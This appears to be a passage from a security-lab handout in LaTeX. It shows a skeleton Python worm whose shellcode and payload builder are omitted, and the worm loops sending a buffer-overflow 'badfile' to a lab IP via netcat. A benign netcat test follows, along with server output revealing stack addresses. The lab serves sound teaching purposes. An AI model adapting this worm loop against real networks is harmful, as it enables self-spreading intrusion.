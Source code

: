 \begin{lstlisting}[caption={The attack code: \texttt{worm.py}}, language=Python] 
shellcode= (
   ... code omitted (will be discussed later) ...
).encode('latin-1')


# Find the next victim (return an IP address)
def getNextTarget():
    return '10.151.0.71'                                     (*@\lineone@*) 

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...


############################################################
print("The worm has arrived on this host ^_^", flush=True)

# Run the ping program in the background 
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)        (*@\linetwo@*) 

# Create the badfile
createBadfile() 

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server's vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000) 
\end{lstlisting}



\subsection{Creating the badfile} 

Let's first send a benign message to our target server.
We will see the following messages printed out by the 
target container (the actual messages you see may be different).
The results are from the AMD machine; the ones for the Apple
Silicon machines are similar.

\begin{lstlisting}
// On the host machine 
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71  | Starting stack
as151h-host_0-10.151.0.71  | Input size: 6
as151h-host_0-10.151.0.71  | Frame Pointer (ebp) inside bof(): 0xffffd5f8  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | Buffer's address inside bof():    0xffffd588  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | ==== Returned Properly ====
\end{lstlisting}
 

